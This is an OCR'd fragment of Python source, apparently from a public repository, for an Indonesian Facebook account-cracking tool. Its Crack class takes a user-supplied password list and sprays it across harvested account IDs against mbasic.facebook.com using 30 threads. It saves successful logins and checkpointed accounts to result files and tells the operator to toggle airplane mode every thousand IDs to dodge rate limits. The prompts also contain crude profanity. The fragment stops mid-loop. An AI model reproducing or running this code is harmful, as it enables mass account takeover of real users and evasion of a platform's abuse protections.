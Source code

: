 # MULAI CRACK 
pwx = []
class Crack:
	
	def __init__(self):
		self.id = []
		self.url = "https://mbasic.facebook.com"
		
	def romiy(self, id):
		self.id = id
		#print ('\n%s%s%s jumlah Id%s > %s%s'%(U,til,O,M,H,len(self.id)))
		unikers = input('\n%s%s%s gunakan password manual? y/t%s > %s'%(U,til,O,M,K))
		if unikers in ('Y', 'y'):
			print ('\n%s%s%s contoh%s >%s sayang%s,%spengen%s,%sngentot'%(U,til,O,M,O,M,O,M,O))
			while True:
				pwx = input('%s%s%s password %s> %s'%(U,til,O,M,K))
				if pwx == '':
					print ('\n%s%s jangan kosong '%(M,til))
				elif len(pwx)<=5:
					print ('\n%s%s password minimal 6 karakter'%(M,til))
					exit()
				else:
					def manual(brute=None):
						ind = input('\n%s#%s Pilih %s>%s '%(P,O,M,K))
						if ind =='':
							print("%s%s isi yang benar kentod "%(M,til))
							manual()
						elif ind in ('1', '01'):
							print ('\n%s%s%s akun %s[OK] %stersimpan ke file %s> %sOK/%s.txt'%(U,til,O,H,O,M,H,waktu));jeda(0.2)
							print ('%s%s%s akun %s[%sCP%s]%s tersimpan ke file %s> %sCP/%s.txt'%(U,til,O,M,K,M,O,M,K,waktu));jeda(0.2)
							jalan ('\n%s!%s setiap crack 1k ID, mainkan mode pesawat 2 detik \n'%(U,O));jeda(0.2)
							with ThreadPoolExecutor(max_workers=30) as TitidNeverDie:
								for akun in self.id:
									try:
										_heck_ = akun.split('<=>')[0]
										TitidNeverDie.submit(self.touch, _heck_, brute)
									except: pass
							hasil(ok,cp)
						elif ind in ('2', '02'):
							print ('\n%s%s%s akun %s[OK] %stersimpan ke file %s> %sOK/%s.txt'%(U,til,O,H,O,M,H,waktu));jeda(0.2)
							print ('%s%s%s akun %s[%sCP%s]%s tersimpan ke file %s> %sCP/%s.txt'%(U,til,O,M,K,M,O,M,K,waktu));jeda(0.2)
							jalan ('\n%s!%s setiap crack 1k ID, mainkan mode pesawat 2 detik \n'%(U,O));jeda(0.2)
							with ThreadPoolExecutor(max_workers=30) as TitidNeverDie:
								for akun in self.id:
									try:
										_heck_ = akun.split('<=>')[0]
										TitidNeverDie.submit(self.basic, _heck_, brute)
									except: pass
							hasil(ok,cp)
						elif ind in ('3', '03'):
							print ('\n%s%s%s akun %s[OK] %stersimpan ke file %s> %sOK/%s.txt'%(U,til,O,H,O,M,H,waktu));jeda(0.2)
							print ('%s%s%s akun %s[%sCP%s]%s tersimpan ke file %s> %sCP/%s.txt'%(U,til,O,M,K,M,O,M,K,waktu));jeda(0.2)
							jalan ('\n%s!%s setiap crack 1k ID, mainkan mode pesawat 2 detik \n'%(U,O));jeda(0.2)
							with ThreadPoolExecutor(max_workers=30) as TitidNeverDie:
								for akun in self.id:
									try:
										_heck_ = akun.split('<=>')[0]